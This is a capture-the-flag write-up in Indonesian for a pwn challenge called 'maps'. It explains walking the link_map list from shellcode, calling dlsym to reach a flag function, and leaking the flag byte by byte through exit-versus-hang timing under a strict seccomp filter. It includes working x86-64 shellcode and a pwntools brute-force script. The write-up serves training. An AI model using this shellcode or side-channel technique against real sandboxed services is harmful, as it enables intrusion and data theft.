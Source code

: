 # maps


## Analisa


Diberikan program dengan konfigurasi berikut:
```
$ file maps; checksec maps
maps: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=f9ff8aad5717803ffcdc94c0cca9bf13d7d384e2, not stripped
[*] '/home/tempest/projects/cscctf/2019/final/pwn/maps/maps'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


Ini merupakan soal shellcoding. Program membuka `libflag.so` dalam lazy binding, kemudian membuat memori rwx dan rw. Setelah melakukan memcpy, program membaca shellcode sebanyak 960 bytes dari stdin. Terakhir diapply rule seccomp dan dieksekusi shellcode kita. Permasalahannya adalah rule seccomp, dimana hanya **exit**, dan **exit\_group** yang diperbolehkan. Kita harus mengeluarkan flag secara blind dari program, karakter per karakter. Jika kita lihat sekilas `libflag.so`, banyak sekali fungsi `wrong_flag_*`. Pencarian kata "correct" (invert match dari "wrong" dan "CCC") pada .so memunculkan satu hasil:
```
gef> disass correct_flag_13333337 
Dump of assembler code for function correct_flag_13333337:
   0x000000000010b815 <+0>:	push   rbp
   0x000000000010b816 <+1>:	mov    rbp,rsp
   0x000000000010b819 <+4>:	lea    rax,[rip+0x7ced8]        # 0x1886f8
   0x000000000010b820 <+11>:	pop    rbp
   0x000000000010b821 <+12>:	ret    
End of assembler dump.
gef> x/s 0x1886f8
0x1886f8:	"CCC{xxx_this_isnt_a_real_flag_xxx}"
```


## Eksploitasi


Sebelum mulai, mari kita lihat definisi `link_map` pada glibc-2.27/elf/link.h:
```C
struct link_map
{
	/* These first few members are part of the protocol with the debugger.
	   This is the same format used in SVR4.  */

	ElfW(Addr) l_addr; /* Selisih alamat pada ELF dan memori.  */
	char *l_name; /* Nama file.  */
	ElfW(Dyn) *l_ld; /* Area "Dynamic" pada objek.  */
	struct link_map *l_next, *l_prev; /* Doubly linked list.  */
};
```


Pada bagian awal, kita melakukan cek pada program, dan program memiliki setup `partial RELRO`. Artinya adalah program menaruh link_map pada area GOT. Struktur link_map cocok pada definisi:
```
gef> tel 0x602008 1
0x0000000000602008|+0x0000: 0x00007fe050a3a170 -> link_map
gef> tel 0x00007fe050a3a170 5
0x00007fe050a3a170|+0x0000: 0x0000000000000000 -> link_map->l_addr
0x00007fe050a3a178|+0x0008: 0x00007fe050a3a700 -> link_map->l_name
0x00007fe050a3a180|+0x0010: 0x0000000000601e00 -> link_map->l_ld
0x00007fe050a3a188|+0x0018: 0x00007fe050a3a710 -> link_map->l_next
0x00007fe050a3a190|+0x0020: 0x0000000000000000 -> link_map->l_prev
```


Setelah menelusuri double linked list dari link_map:
```
gef> tel 0x00007fe050a3a710+0x18
0x00007fe050a3a728|+0x0000: 0x00007fe050a0c000 
gef> tel 0x00007fe050a0c000+0x18
0x00007fe050a0c018|+0x0000: 0x00007fe050a0c500
...
gef> tel 0x00007fe050a399f0+0x18
0x00007fe050a39a08|+0x0000: 0x000000000182b280
gef> tel 0x000000000182b280 5
0x000000000182b280|+0x0000: 0x00007fe04fb49000 -> link_map->l_addr
0x000000000182b288|+0x0008: 0x000000000182b260 -> "./libflag.so"
0x000000000182b290|+0x0010: 0x00007fe04ffd3e90 -> link_map->l_d
0x000000000182b298|+0x0018: 0x0000000000000000 -> link_map->l_next
0x000000000182b2a0|+0x0020: 0x00007fe050a399f0 -> link_map->l_prev
```


Berdasarkan hasil penelusuran, `dlopen` mengalokasikan struct link_map pada area heap. Ini penting karena kita bisa membuat loop dalam shellcode dan memvalidasi apabila pointer berasal dari area heap (libflag.so) atau area libc (libseccomp, dll). Berikut shellcode awal:
```
mov r15, 0x7f0000000000
mov ebx, 0x602008
mov rbx, [rbx]

loop1:
	mov rbx, [rbx+0x18]
	cmp rbx, r15
	jge loop1
```


Selanjutnya, kita dapat melakukan address calculation karena diberikan libc. Ambil saja suatu address dari GOT seperti `puts` dan lakukan penambahan atau pengurangan. Tujuannya disini adalah memanggil `dlsym` dengan parameter link_map libflag.so sebagai `handle` dan `correct_flag_13333337` sebagai symbol yang ingin dicari, agar kita bisa langsung mendapatkan alamat fungsinya tanpa perlu melakukan parsing ELF. Karena fungsi `correct_flag_13333337` tidak menerima parameter, kita bisa langsung memanggilnya setelah `dlsym`. Berikut shellcode tahap kedua:
```
sub rsp, 8
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x3733333333
xor [rsp], rax
mov rax, 0x3333315f67616c66
push rax
mov rax, 0x5f74636572726f63
push rax
mov rsi, rsp

mov ecx, 0x602028 ; puts GOT
mov rcx, [rcx]
add rcx, 0xe5b60 ; dlsym

mov rdi, rbx
call rcx ; dlsym(libflag_link_map,"correct_flag_13333337")
call rax ; correct_flag_13333337
```


`sub rsp, 8` bertujuan agar menghindari crash, karena `dlsym` menggunakan `movaps`, instruksi yang dapat menyebabkan crash apabila stack tidak alligned 16 byte. Setelah kita dapatkan flagnya di register rax, kita hanya perlu mengeluarkan flag tanpa melakukan print. Caranya adalah dengan melakukan compare value terhadap karakter tertentu, dan apabila tidak sama kita bisa melakukan exit secara langsung; sebaliknya, infinite loop. Namun cara ini sangat tidak efisien karena jumlah perbandingannya sangatlah banyak, sekitar 91 perbandingan (karakter printable) **per karakter flag**. Kita bisa melakukan optimisasi dengan memasukkan algoritma [binary search](https://en.wikipedia.org/wiki/Binary_search_algorithm) ke shellcode kita. Shellcode dalam bentuk function python:
```Python
def testchar(offset,val):
	time.sleep(1)
	# r = remote("localhost",10003) if len(sys.argv) < 2 else remote("maps.problem.cscctf.com",10003)
	r = gdb.debug([exe.path],gdbscript="b *0x400e2e\nc\n")
	r.sendafter("> ",asm("""
		mov r15, 0x7f0000000000
		mov ebx, 0x602008
		mov rbx, [rbx]

		loop1:
			mov rbx, [rbx+0x18]
			cmp rbx, r15
			jge loop1

		sub rsp, 8
		mov rax, 0x101010101010101
		push rax
		mov rax, 0x101010101010101 ^ 0x3733333333
		xor [rsp], rax
		mov rax, 0x3333315f67616c66
		push rax
		mov rax, 0x5f74636572726f63
		push rax
		mov rsi, rsp

		mov ecx, 0x602028
		mov rcx, [rcx]
		add rcx, 0xe5b60

		mov rdi, rbx
		call rcx
		call rax

		mov dl, BYTE PTR [rax+{:d}]
		cmp dl, {:d}
		jge good

		bad:
			mov rax, 0x3c
			xor edi, edi
			syscall

		good:
			jmp $+0
	""".format(offset,val)))
	try:
		r.recv(1,timeout=1)
		r.close()
		return True
	except:
		r.close()
		return False

def bruteforce():
	flag = ''
	while True:
		low = 32
		high = 128
		mid = -1
		for i in xrange(8):
			mid = (low+high)/2
			ret = testchar(len(flag),mid)
			if ret: low = mid
			else: high = mid

		if mid == 32: break

		flag += chr(mid)
		sys.stdout.write(chr(mid))
		sys.stdout.flush()

	print "\nFlag: {}".format(flag)
```


Saya pribadi telah melakukan trial dan error terhadap script, dan yang paling sedikit membuat kesalahan adalah dengan mengatur rentang low dan high, 32 dan 128 (printable); sisanya memerlukan beberapa kali eksekusi script. Karakter pertama dari flag adalah 'C' (67). Jika dimasukkan ke dalam algoritma binary search di atas:
```
#   low  mid  high
1.  32   80   128
2.  32   56   80
3.  56   68   80
4.  56   62   68
5.  62   65   68
6.  65   66   68
7.  66   67   68   -> ketemu
```


Setiap karakter yang dibruteforce hanya memiliki 8 kali perbandingan maksimal (log2 256 = 8). Dibutuhkan waktu sekitar 2 menit untuk mengeluarkan flag dari program (1x eksekusi script); lebih dari itu jika hasil tidak akurat.



Output script:
```
$ python exploit.py go
CCC{p4rs1ng_ELF_w1th_da_Sh3lLC0d3}
Flag: CCC{p4rs1ng_ELF_w1th_da_Sh3lLC0d3}
Elapsed time: 123.250
```

